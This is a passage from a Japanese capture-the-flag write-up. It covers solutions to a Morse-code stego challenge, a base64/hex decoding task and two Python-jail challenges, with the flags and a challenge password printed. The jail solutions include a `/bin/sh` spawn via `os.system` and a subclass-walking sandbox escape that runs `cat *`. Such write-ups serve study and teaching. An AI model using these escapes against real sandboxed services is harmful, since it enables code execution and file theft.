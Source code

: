と出力されました。

zip を展開すると `givenSound.wav` `login.txt` というファイルが得られました。`givenSound.wav` はモールス信号、`login.txt` はログインフォームで使うユーザ名 (`Stegano#2_Login`) のようです。

モールス信号をデコードすると `PASSWORDTOGATHEFLAGIS5PWJPZQVPG5Y2X2VPGLJ` という文字列が得られました。

先ほどのログインフォームにユーザ名に `Stegano#2_Login` パスワードに `5PWJPZQVPG5Y2X2VPGLJ` を入力してログインするとフラグが得られました。

```
cc"97YX993n+c+8Lp8&94piagffbXm
```

## [Binary 50] Fix It, Or May Be Not?

バイナリを strings にかけると `NDc2ZjZmNjQ1ZjRhNmY2MjVmNDI3Mjc1Njg1Zjc0Njg2NTVmNzc2ZjcyNzM3NDVmNjk3MzVmNzM3\nNDY5NmM2YzVmNzQ2ZjVmNjM2ZjZkNjU=\n` という文字列が得られました。

これを base64 デコードして、さらに hex デコードするとフラグが得られました。

```
Good_Job_Bruh_the_worst_is_still_to_come
```

## [Binary 80] To Wait Or Not To Wait That's The Question

Python で任意のコードが実行できるサービスでした。`__import__('os').system('/bin/sh')` で `/bin/sh` が実行できました。あとは `cat remote.py` でフラグが得られました。

```
DoYouEvenLiftBro??
```

## [Binary 300] Can You Beat The Snake?

Python でほぼ任意のコードが実行できるサービスでした。いろいろ試していると、数字が入っていたり 31 文字以上だったりすると実行できず、また組み込み関数は消されてしまっているという制限があると分かりました。

[Javex' Blog](https://blog.inexplicity.de/plaidctf-2013-pyjail-writeup-part-i-breaking-the-sandbox.html) を参考に

```python
A='a'.__len__()
B=A<<A
C=B<<A
D=C<<A
E=D<<A
F=E<<A
Z=A+B+D+E+F

a=().__class__.__base__
b=a.__subclasses__()
d=b[Z].__init__.__globals__
o='os'
e=d['linecache'].__dict__[o]
e.system('cat *')
```
